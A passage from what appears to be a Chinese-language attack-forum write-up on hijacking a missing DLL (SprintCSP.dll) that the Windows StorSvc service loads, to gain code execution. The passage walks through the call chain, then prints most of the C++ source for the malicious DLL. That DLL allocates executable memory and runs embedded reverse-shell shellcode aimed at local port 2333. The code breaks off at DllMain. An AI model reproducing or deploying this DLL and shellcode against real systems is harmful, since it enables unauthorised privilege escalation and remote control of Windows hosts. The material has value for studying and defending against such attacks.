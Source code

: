 ![image-20230706150931578](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-8b56ce94b35348136b6234086d317dbff6491429.png)

`StorSvc.dll!InitResetPhone()` 方法方法内部继续调用 `StorSvc.dll!ResetPhoneWorkerCallback()` 方法：

![image-20230706151109765](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-5808b217677e4d0ba80f6915369a11dc7f70d225.png)

最终，`StorSvc.dll!ResetPhoneWorkerCallback()` 将会尝试加载缺失的 SprintCSP.dll 模块，如下图所示。

![image-20230706151203987](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-f29a7e7d6ee1e3206c0fe6ae3a5026c68135a767.png)

通过向 C:\\Windows\\System32\\ 目录中写入一个恶意的 SprintCSP.dll 模块，当我们通过 RPC 调用 `StorSvc.dll!SvcRebootToFlashingMode()` 方法时，就会加载恶意的 DLL。

我们首先用 Visual Studio 创建一个 DLL 项目，用于制作 SprintCSP.dll，主要代码如下，其中的 Shellcode 用于向本地的 2333 端口反弹一个 Shell。

- SprintCSP.dll

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

DWORD WINAPI DoMagic(LPVOID lpParameter) {
    unsigned char shellcode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x09\x1d\x7f\x00\x00\x01\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
```